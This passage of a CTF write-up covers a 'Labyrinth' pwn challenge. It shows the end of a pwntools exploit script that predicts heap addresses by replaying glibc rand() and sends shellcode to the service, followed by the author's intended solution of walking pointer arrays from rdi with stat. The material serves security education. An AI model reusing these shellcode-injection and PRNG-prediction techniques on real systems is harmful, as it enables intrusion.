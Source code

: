 ```python
end:
xor rdi, rdi
mov eax, {constants.SYS_exit}
syscall
locations:
''')

if args.D: print(disasm(shellcode))

from ctypes import *
glibc = cdll.LoadLibrary('libc.so.6')
for i in range(9*16): glibc.rand()
for i in range(16): shellcode += p64(glibc.rand() * 0x1000 + 0x10000)

assert(len(shellcode) < 0x1000)
p.sendafter(b'Labyrinth\n',p64(len(shellcode)))
p.send(shellcode)
_ = p.recvline().decode().strip()
p.close()
print(_)
```

### Intended Solution `exploit3.py`

The intended solution, as stated by the challenge author on Discord, is to leverage the only register (`rdi`) that is not reset [before shellcode execution] to navigate the labyrinth with `stat`.

> I assumed all registers were reset when I created my initial solve; checking the last 16 allocations seemed easy enough.

The nested loops in the challenge binary creates 10 arrays, each with 16 elements, one of which is a pointer (randomly selected) to the next array.  `rdi` points the first array; the last array has a pointer to the in-memory flag:

```
array: 0         1         2         3     .........     a
-----------------------------------------------------------------------
rdi -> 0    .--> 0    .--> 0    .--> 0               --> 0
       1    |    1    |    1    |    1                   1
       2    |    2    |    2    |    2                   2 ---> CTF{...
       3    |    3    |    3    |    3                   3
       4 ---'    4    |    4    |    4                   4
       5         5    |    5    |    5                   5
       6         6    |    6    |    6                   6
       7         7    |    7    |    7     .........     7
       8         8    |    8    |    8                   8
       9         9    |    9 ---'    9                   9
       a         a    |    a         a                   a
       b         b    |    b         b ---               b
       c         c    |    c         c                   c
       d         d ---'    d         d                   d
       e         e         e         e                   e
       f         f         f         f                   f
```
